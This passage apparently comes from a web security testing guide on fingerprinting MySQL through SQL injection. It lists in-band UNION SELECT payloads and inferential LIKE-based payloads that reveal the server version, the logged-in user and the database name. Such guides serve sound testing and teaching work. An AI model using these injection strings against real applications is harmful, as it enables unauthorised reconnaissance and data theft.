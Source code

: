 These are equivalent as the result is the same.

In band injection:
```
 1 AND 1=0 UNION SELECT @@version /*
```
Inferential injection:
```
 1 AND @@version like '4.0%'
```
**Result Expected:**<br>

A string like this:
```
 5.0.22-log
```

#### Login User

There are two kinds of users MySQL Server relies upon.
1. [[USER()](http://dev.mysql.com/doc/refman/5.0/en/information-functions.html)]: the user connected to the MySQL Server.
2. [[CURRENT_USER()](http://dev.mysql.com/doc/refman/5.0/en/information-functions.html)]: the internal user who is executing the query.


There is some difference between 1 and 2. The main one is that an anonymous user could connect (if allowed) with any name, but the MySQL internal user is an empty name (*). Another difference is that a stored procedure or a stored function are executed as the creator user, if not declared elsewhere. This can be known by using **CURRENT_USER**.


In band injection:
```
 1 AND 1=0 UNION SELECT USER()
```
Inferential injection:
```
 1 AND USER() like 'root%'
```

**Result Expected:**<br>

A string like this:
```
 user@hostname
```

#### Database name in use

There is the native function DATABASE()

In band injection:
```
 1 AND 1=0 UNION SELECT DATABASE()
```
Inferential injection:
```
 1 AND DATABASE() like 'db%'
```
